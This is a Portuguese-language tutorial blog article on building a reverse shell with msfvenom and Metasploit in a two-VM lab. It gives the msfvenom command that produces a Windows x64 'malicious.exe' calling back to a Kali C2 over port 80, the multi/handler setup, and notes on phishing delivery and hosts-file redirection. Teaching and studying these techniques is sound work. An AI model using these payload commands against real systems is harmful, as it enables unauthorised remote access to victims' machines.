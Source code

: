 ```yaml
---
layout: default
title: Reverse Shell com MSFVenom e Metasploit
permalink: /artigos/03.md/
---
```


[Página Inicial](https://carineconstantino.github.io/cybersecurity/)

## Shell Reverso com MSFVenom e Metasploit

Nesse artigo vou falar sobre a técnica de conexão reversa, ou seja, a conexão iniciada a partir da máquina do cliente/vítima para o servidor C2 (C&C - Command and Control). Essa técnica utiliza como vetor os ataques de phishing e engenharia social para induzir a vítima a clicar em um link e fazer o download do script ou executável que será utilizado para iniciar a conexão reversa.

Geralmente em um ambiente controlado, a arquitetura da rede inclui firewall no perímetro e entres as redes LAN, com filtros de segurança como IPS e Antimalware habilitado. O tráfego de entrada é bloqueado com exceção de algumas portas de serviços específicos expostos na internet. O shell reverso nesse cenário consegue fazer o "bypass"  do firewall ao estabelecer uma conexão de saída da rede interna usando portas conhecidas como 80 - HTTP, 443 - HTTPS.

A figura abaixo ilustra como ocorre o bypass do firewall. Quando o script com o payload do shell reverso é executado, a máquina da rede interna inicia a conexão com um servidor externo. 

![topologia de rede](https://carineconstantino.github.io/cybersecurity/artigos/imagens/topologia_rede.jpg)

## Ambiente de Teste

No ambiente de teste, eu utilizo duas máquinas virtualizadas com VirtualBox. A máquina Kali Linux com IP 192.168.0.17 é o servidor C2 e a máquina Windows 7 com IP 192.168.0.11 é o cliente/vítima. 

## Gerando o payload com o MSFVenom 

A architetura da máquina onde o ataque vai acontecer deve ser levada em consideração quando o payload é criado. A opção ```-a x64``` define o executável compatível com architetura 64bits do Windows 7. Neste sentido, a plataforma é definida com a opção ```--platform windows``` 

```msfvenom -p windows/X64/shell/reverse_tcp -a x64 --platform windows -f exe LHOST=192.168.0.17 LPORT=80 -o /tmp/malicious.exe ```

![msfvenom_command](https://carineconstantino.github.io/cybersecurity/artigos/imagens/comando_msfvenom.png)

A máquina Kali recebe a conexão da vítima e para que essa comunicação funcione, é necessário habilitar um "listening" com o multi/handler ```msf> use multi/handler``` Feito isso, configure o mesmo payload dentro das opções do handler ```set payload windows/x64/shell/reverse_tcp``` O multi/handler é o módulo que permite gerenciar a conexão reversa iniciada pela vítima. 

![listening](https://carineconstantino.github.io/cybersecurity/artigos/imagens/listening.png)

## Executando o shell reverso

Ao executar o arquivo malicious.exe na máquina Windows 7, o kali recebe a conexão e o prompt do cmd do windows.

![execucao_shell01](https://carineconstantino.github.io/cybersecurity/artigos/imagens/execucao_shell.png)

![execucao shell02](https://carineconstantino.github.io/cybersecurity/artigos/imagens/execucao_shell02.png)

Depois que o terminal estiver disponível, o invasor inicia um ataque interno mais sofisticado. Uma das ações que podem ser executadas é a alteração do arquivo hosts para direcionar o acesso da vítima para um site específico. Em um ataque real, a navegação da vítima é direcionanda para um site falso ou que mostre um alerta do tipo ransomware, exigindo um pagamento pois a máquina está infectada. O FTP é outro meio de transferir arquivos para a máquina da vítima. 


## O que é MSFVenom ?

De acordo com o site da [Offensive Security](https://www.offensive-security.com), o MSFVenom é um framework para criação de payloads, e a partir de 2015 substituiu os módulos **msfpayload** e **msfencode**

O MSFVenom fornece uma grande variedade de payloads para Windows, Linux, PHP, java, etc Para visualizar quais payloads estão disponíveis para linux use o seguinte comando:

```msfvenom -l payloads | grep linux | more```

Use o grep para filtro e o more para a saída paginada.

Diferente do Metasploit, no MSFVenom não é necessário acessar um prompt/interface, o próprio framework inicia o comando para criação do payload como podemos ver no exemplo abaixo. 

```msfvenom -p windows/X64/shell/reverse_tcp -a x64 --platform windows -f exe LHOST=192.168.0.17 LPORT=80 -o /tmp/malicious.exe ```

O objetivo desse artigo foi mostrar o ataque de shell reverso de modo simplista. Essa técnica atualmente é utilizada por algumas ferramentas de acesso remoto de forma segura (Ex.:AnyDesk) Nos dias atuais, um ataque de shell reverso requer um estudo e algum conhecimento da infraestrutura para ser executado com sucesso. A variedade de payloads permite a execução desse ataque de forma sofisticada. Redes que garantem sua segurança apenas no firewall estão expostas a esse tipo de invasão. 
